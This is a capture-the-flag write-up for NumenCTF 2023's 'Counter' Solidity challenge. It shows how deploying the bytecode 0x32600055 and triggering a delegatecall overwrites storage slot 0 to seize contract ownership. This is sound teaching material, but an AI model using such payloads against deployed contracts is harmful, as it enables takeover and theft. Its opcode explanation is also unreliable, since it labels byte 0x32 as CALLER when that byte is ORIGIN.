


# Counter

## Introduction
The smart contract is rather simple but focuses on how you can store change the owner of the address by using simple assembly opcode.

Here's the source code:  https://github.com/numencyber/NumenCTF_2023/blob/main/counter/contracts/Counter.sol

## Code Breakdown

**contract Deployer**

The deployer contract has a simple constructor that stores byte code into memory using this 
```solidity
constructor(bytes memory code) { assembly { return (add(code, 0x20), mload(code)) } }
```

Essentially, it stores the byte codes and return the starting memory address (0x20) as the first parameter and the length of the array as the second parameter.
```solidity
constructor(bytes memory code) {
    assembly {
        // Add 0x20 to the starting memory address of the code array
        // to skip the length prefix and get the first byte of the array
        let start := add(code, 0x20)

        // Load the length of the code array into memory
        let length := mload(code)

        // Return the code array as a bytes32 value
        return(start, length)
    }
}
```

**create(bytes memory code)**

It takes in any arbitrary bytes with a maximum length of 24. Next, it is stored into the contract ``Deployer`` and the address of that contract is stored in ``target``.

**A_delegateccall(bytes memory data)**

It takes in any arbitrary bytes and makes a low-level function call using ``target.delegatecall(data)``. Essentially, the function uses ``target`` to execute the ``data``.

## Hints
By default, Solidity stores a contract's state variables starting at ***slot0***. Therefore, the variable ``owner`` is stored at slot0. 
Now that we analysed the functions, here's a breakdown on what we should do.

1) Using solidity opcode, create a set of instruction to store attacker address into ***slot0***.

2) Using the ``create`` function to store the set of instructions into ``Deployer`` contract.

3) Call ``A_delegatecall`` function to execute the set of instructions and change attacker to owner

## Solutions
No attacker contract is required for this challenge. 

This is the set of instructions required to change owner of the contract. This store the address of the immediate caller of the current contract into slot0.
``` 
sstore(0x0, caller())
```

Convert the code above into opcode
```
CALLER       // Pushes the address of the immediate caller of the current contract onto the stack
PUSH1 0x00   // Pushes the storage slot number (0x00) onto the stack
SSTORE       // Stores the value on top of the stack (the original sender's address) in the specified storage slot
```

Convert the opcode int EVM binary and you'll get ``0x32600055``

Call the ``create`` function and chuck those binary into it.




Once that is complete, send any arbitrary bytes into ``A_delegateccall``.




Once that is complete, the attacker will be the owner now.